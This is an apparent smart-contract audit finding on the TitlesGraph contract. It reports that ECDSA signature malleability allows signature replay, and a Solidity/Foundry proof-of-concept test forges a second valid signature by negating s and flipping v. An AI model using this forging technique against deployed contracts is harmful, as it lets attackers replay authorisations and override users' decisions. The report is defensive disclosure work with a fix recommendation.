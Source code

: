 Breezy Lemonade Shark

medium

# Signatures can be replayed by abusing signature malleability

## Summary

The TitlesGraph contract tracks used signatures by storing their hash and marking them as used. However, signatures can be manipulated to keep them valid while changing their associated points in the elliptic curve, leading to signature replay attacks.

## Vulnerability Detail

The TitlesGraph contract allows to control the acknowledgment of edges using signatures. The creator of the destination node in the edge can create a signature that any account can submit on their behalf.

To prevent reusing a signature, the contract stores its hash in a mapping and checks if it has been used before:

```solidity
modifier checkSignature(bytes32 edgeId, bytes calldata data, bytes calldata signature) {
    bytes32 digest = _hashTypedData(keccak256(abi.encode(ACK_TYPEHASH, edgeId, data)));
    if (
        !edges[edgeId].to.creator.target.isValidSignatureNowCalldata(digest, signature)
            || _isUsed[keccak256(signature)]
    ) {
        revert Unauthorized();
    }
    _;
    _isUsed[keccak256(signature)] = true;
}
```

An attacker can use signature malleability attacks to create a valid signature while changing the values for the points in the elliptic curve. This will generate a different signature at the byte level, that leads to a different hash, while keeping the signature valid. See attached proof of concept for a detailed walkthrough.

## Proof of Concept

Notes for the test:

- The contract uses a harness that exposes the `getDigest()` function to facilitate building the signature.
- The acknowledgment functionality is inherently broken by another bug (see issue titled "Edges cannot be acknowledged"). This test assumes the contract has been fixed, else there is no way to demonstrate the issue.

```solidity
function test_signature_malleability() public {
    TitlesGraphHarness graph = new TitlesGraphHarness(address(this), address(this));

    address entityFrom = makeAddr("entityFrom");
    address creatorFrom = makeAddr("creatorFrom");
    (address creatorTo, uint256 creatorToPk) = makeAddrAndKey("creatorTo");

    Node memory from = Node({
        nodeType: NodeType.TOKEN_ERC1155,
        creator: Target({target: creatorFrom, chainId: block.chainid}),
        entity: Target({target: entityFrom, chainId: block.chainid}),
        data: abi.encode(1)
    });

    Node memory to = Node({
        nodeType: NodeType.ACCOUNT,
        creator: Target({target: creatorTo, chainId: block.chainid}),
        entity: Target({target: creatorTo, chainId: block.chainid}),
        data: ""
    });

    // Create edge
    vm.prank(entityFrom);
    graph.createEdge(from, to, "");

    bytes32 edgeId = keccak256(abi.encode(from, to));

    // edge is by default unack
    (,,bool acknowledged,) = graph.edges(edgeId);
    assertFalse(acknowledged);

    // Creator from to signs a permit
    bytes memory edgeData = "";
    bytes32 digest = graph.getDigest(edgeId, edgeData);
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(creatorToPk, digest);
    bytes memory signature = abi.encodePacked(r, s, v);

    // ack edge using signature
    graph.acknowledgeEdge(edgeId, edgeData, signature);

    // edge is now ack
    (,,acknowledged,) = graph.edges(edgeId);
    assertTrue(acknowledged);

    // creator decides to unack the edge
    vm.prank(creatorTo);
    graph.unacknowledgeEdge(edgeId, edgeData);

    (,,acknowledged,) = graph.edges(edgeId);
    assertFalse(acknowledged);

    // Attacker reuses the signature by abusing malleability

    // move S to the other side
    bytes memory forgedSignature;
    {
        uint256 order = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141;
        uint256 sUint =  uint256(s);
        bytes32 forgedS = order > sUint ? bytes32(order - sUint) : bytes32(sUint - order);
        // flip V
        uint8 forgedV = v == 27 ? 28 : 27;
        forgedSignature = abi.encodePacked(r, forgedS, forgedV);
    }

    graph.acknowledgeEdge(edgeId, edgeData, forgedSignature);

    // Edge is now back to ack!
    (,,acknowledged,) = graph.edges(edgeId);
    assertTrue(acknowledged);
}
```

## Impact

An attacker can replay signatures used in the TitlesGraph contract by manipulating these into valid signatures that are different at the byte level, and will be considered as unused.

## Code Snippet

https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/graph/TitlesGraph.sol#L31

## Tool used

Manual Review

## Recommendation

Include a nonce in the signature payload and validate replayment by checking against the current nonce value for an account. Also consider adding a timestamp that works as a deadline, this will enable signatures to eventually expire.
